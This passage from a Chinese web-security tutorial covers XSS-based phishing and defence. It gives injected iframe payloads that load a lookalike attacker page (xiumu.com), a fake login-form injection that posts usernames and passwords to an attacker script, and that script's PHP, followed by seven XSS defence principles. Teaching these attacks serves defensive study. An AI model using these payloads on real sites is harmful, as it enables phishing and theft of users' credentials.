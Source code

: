 或者http://www.test.com/a.php?id=””><iframe src=”[http://www.xiumu.com](http://www.xiumu.com/)” height=0 width=0 ></iframe>

(2)**HTML注入式钓鱼**

直接利用XSS漏洞注射HTML/js 代码到页面中.可写一个正常的HTML表单来窃取账号密码.如:<http://www.test.com/a.php?id=>””<html><head><title>login</title></head><body><div style=”text-align:center;”><form method=”POST” action=”xiumu.php” name=”form”><br/><p>username</p><input type=”text” value=”” name=”a”><p>password</p><input type=”password” name=”b” value=””><br/><input type=”submit” value=”login”></form></body></html>

这样当用户直接填入账号密码提交后，你就可以在xiumu.php接收到受害者的账号密码了.

Xiumu.php代码:<?php echo $_POST[‘a’]?><?php echo $_POST[‘b’]?>

(3)**Xss跨框架钓鱼**

这种方式是通过<iframe>嵌入远程域的一个页面实施钓鱼**,**http://www.test.com/a.php?id=””><iframe src=”[http://www.xiumu.com](http://www.xiumu.com/)” height=”100%” width=”100%”></iframe>通过将www.xiumu.com的页面做的和test的页面相同(可利用iframe实现)，但受害者看到的不是真正的test页面，而是xiumu页面.

（4）xss.tv 是个好网站

### 6. 常用编码

刘志龙大神分析的很好，这里就不再赘述，[刘志龙-从零开始学web安全（3）](http://nvhack.com/forum.php?mod=viewthread&tid=162&extra=page%3D1)

### 7.XSS 防御

XSS防御基本上遵循七条原则:

1. 不要在页面中插入任何不可信数据，除非这些数已经据根据下面几个原则进行了编码
2. 在将不可信数据插入到HTML标签之间时，对这些数据进行HTML Entity编码
3. 在将不可信数据插入到HTML属性里时，对这些数据进行HTML属性编码
4. 在将不可信数据插入到SCRIPT里时，对这些数据进行SCRIPT编码
5. 在将不可信数据插入到Style属性里时，对这些数据进行CSS编码
6. 在将不可信数据插入到HTML URL里时，对这些数据进行URL编码
7. 使用富文本时，使用XSS规则引擎进行编码过滤

[参考链接](http://www.freebuf.com/articles/web/9977.html)

